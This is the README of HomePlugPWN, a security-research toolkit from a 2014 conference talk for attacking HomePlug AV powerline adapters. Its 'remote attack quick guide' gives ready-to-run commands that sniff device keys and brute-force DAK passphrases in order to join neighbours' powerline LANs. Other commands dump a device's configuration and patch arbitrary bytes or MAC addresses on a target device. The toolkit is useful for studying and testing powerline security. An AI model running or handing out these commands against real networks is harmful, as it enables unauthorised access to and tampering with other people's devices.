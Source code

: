 HomePlugPWN
===========

HomePlugAV PLC tools presented at NoSuchCon 2014: http://www.nosuchcon.org/talks/2014/D1_03_Sebastien_Dudek_HomePlugAV_PLC.pdf

## Requirements 
- Python >= 2.6
- Scapy 2.x
- Promiscous mode for Sniff Indicate packets

## Tools

- HomeplugAV.py scapy Layer: create and craft your own HomePlugAV packets
- discover.py: sends 'GetDeviceTypeRequest' in broadcast to discover PLCs of the same AVLN
- genDAK.py: derives MAC address to get a Qualcomm DAK passhrase
- PBKDF1.py: hashes the DAK or NMK passhrase using the PBKDF1
- quickKODAK.py: performs a KODAK bruteforce on powerline
- plcmon.py: enables 'Sniffer mode' and uses Sniffer Indicate packet to retrieve CCos MAC address
- PIBdump.py: dumps your entire PLC configure (PIB) into a file
- patchPIB.py: patch arbitrary bytes of your PLC, or a field between bytes 0x0-0x400 (see the details of ModulePIB conditions in the Scapy layer). 

## Efficient remote attack quick guide

First we plug our device to the powerline and sniff for every possible CCo:

```bash
python plcmon.py 
[+] Enabling sniff mode
Sent 1 packets.
[+] Listening for CCo station...
	 Found CCo: 44:94:fc:56:ff:34 (DAK: RMHT-ILPO-TYMN-IIXY)
         [...]
```

The tool recovers also the DAK passphrase directly. 

Too change the NMK of the CCos to have a chance to connect to neighbor(s) LAN, we can send the SetEncryptionKeyRequest to the CCos:

```bash
python quickKODAK.py -i eth0 -t 4494fc56ff34
Sent 1 packets.
``` 

If you want to reconfigure all device, skip 2-3 of the MAC address found previously as follows:

```bash
python quickKODAK.py -i eth0 -t 4494fc56
Sent 1 packets.
```

This will bruteforce the 2 last bytes, generating a new DAK and sending it in broadcast for every combinaison.

## Dump the entire PIB

The following tool aims to dump the entire PIB. You could also use the same techniques to dump the NVM or the Soft-Bootloader...

To process the dump use it as follows:

```bash
python2 ./PIBdump.py -i enp0s26u1u1 -o mycpl.pib
[...]
[+] PIB dump: Success!
```

A file containing your PLC should be created as follows:

```bash
wc -c mycpl.pib 
16440 mycpl.pib
```

## Path your PIB

If you want to change your MAC address for example, you can specify the Scapy attribute to modify and the value like that:

```bash
sudo python2 patchPIB.py -i enp0s26u1u1 -d <dest. MAC addr> -t "PIBMACAddr" -v "c0:ff:ee:c0:ff:ee"
```

As you'll see, the MAC address will be changed for your targeted device. 

But if you want to change any arbitrary byte use this command as follows:

```bash
 python2 patchPIB.py -i enp0s26u1u1 -d <dest. MAC addr> -a <start_addr>:<len> -v <value>
```

Like this, you can rewrite the tone map and any other field of your choice ;)

## Licence

HomePlugPWN tools including the HomePlugAV scapy Layer are under the **GPLv2**

## Problems?

- Give us your feedback ;)

## Acknowledgements

* Xavier Carcelle for his book (Power Line Communications in Practice), and his Framework FAIFA
* Ben Tasker for finding CCos MAC addresses in Sniff Indicate packets
* Open-PLC-Utils : https://github.com/qca/open-plc-utils
* Netgear and TP-Link utilities
